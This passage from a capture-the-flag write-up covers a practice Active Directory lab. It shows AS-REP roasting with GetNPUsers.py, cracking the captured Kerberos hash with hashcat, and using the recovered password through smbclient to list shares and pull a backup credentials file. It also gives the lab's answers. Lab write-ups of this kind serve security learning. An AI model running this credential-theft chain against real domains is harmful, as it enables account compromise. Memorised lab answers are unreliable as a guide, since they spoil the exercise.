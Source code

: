 ## Abusing Kerberos
1. Read this section, then proceed.
2. We can use `GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass` or `GetNPUsers.py -dc-ip spookysec.local spookysec.local/ -no-pass -usersfile user.txt` after saving all users to `user.txt` to capture `TGT Token` of `svc-admin` using ASREPRoasting method.
   
   ```bash
   GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
   Impacket v0.12.0.dev1+20240807.21946.829239e - Copyright 2023 Fortra
   
   [*] Getting TGT for svc-admin
   $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:92f01444cd97361751ec4fb5b5ea985a$04b60fa94a84739e7db13609241d16247154e8d1f952c26a0c5063e53d08c9a4365690982460f7872d8ade23113cd4df929c85d5404f4380fdcaa5af2ee22d7988d7ee428e535be1b2dcff88bf574d418ca88c3b435cea77b6ea322b510bcf59ac1fba479d54db52104c3bec497cf1b81ddcd384bbb5d115ba2c380f0520705c7b63c88f548f17a9c6c8c1b746175b896b29555a45002ad5195a90d42c45193e42915a1107ed46a6b79da94b835f5e7bd8858c0bb7f07fecab80f7097c769da284ea270697500ea73ea223d93684e8d087248610cf7809d076d5e97564e9729ec5aa04656eaec9f3f5a92ecfaa8524346e93
   ```
- Question `We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?` Answer `svc-admin`
- Question `Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)` Answer `Kerberos 5 AS-REP etype 23`. Source: https://hashcat.net/wiki/doku.php?id=example_hashes
- Question `What mode is the hash?` Answer `18200` Source: https://hashcat.net/wiki/doku.php?id=example_hashes
- We can save the `TGT hash` inside a file named `hash.txt` with given passwordlist and crack it with `hashcat -m 18200 hash.txt passwordlist.txt`.
- Question `Now crack the hash with the modified password list provided, what is the user accounts password?` Answer `management2005`
   
## Back to the Basics

- If we enumerate with smbclient we can see some shares. Used command `smbclient -L \\\\spookysec.local\\ -U 'svc-admin'` using password `management2005`. 
```bash
smbclient -L \\\\spookysec.local\\ -U 'svc-admin'
Password for [WORKGROUP\svc-admin]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
- If we check `backup` share with `smbclient` using `smbclient \\\\spookysec.local\\backup -U 'svc-admin'` command and password `management2005`, We can see `backup_credentials.txt` file there with `ls` or `dir` command. Then we can download `backup_credentials.txt` with `get backup_credentials.txt` command.
